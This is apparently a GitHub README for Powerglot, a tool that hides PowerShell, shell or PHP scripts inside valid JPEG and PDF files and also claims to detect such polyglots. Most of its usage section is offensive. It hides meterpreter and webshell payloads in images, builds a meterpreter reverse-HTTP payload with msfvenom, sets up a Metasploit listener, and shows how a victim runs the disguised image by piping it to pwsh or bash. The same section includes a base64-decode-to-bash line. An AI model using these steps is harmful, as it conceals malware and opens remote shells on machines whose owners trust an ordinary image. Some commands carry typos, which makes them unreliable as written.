 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessay a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

The following lines show some examples of usage from Powerglot
```
Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly show in a image viewer)

# We can execute the script in several ways:
a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```


```
# SERVER
# Prepare the payload and configure the server to receive a meterpreter connection

# msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter.ps1 LHOST=<IP> LPORT=<PORT>
# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-o.jpg
# Check correct JPEG format
  #file cat-o.jpg
  # feh cat-o.jpg

msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/meterpreter_reverse_http payload => windows/meterpreter_reverse_http msf exploit(multi/handler) > set lhost <IP> lhost => <IP> msf exploit(multi/handler) > set lport <PORT> lport => <PORT> msf exploit(multi/handler) > exploit

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Polyglot in PDF
#base64 payload.sh (example linenum.sh)
#Create script.sh
echo "fasdfafdafdf=" | base64 .d | bash

#python3 powerglot -o script.sh file.pdf file-1.pdf
```



# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


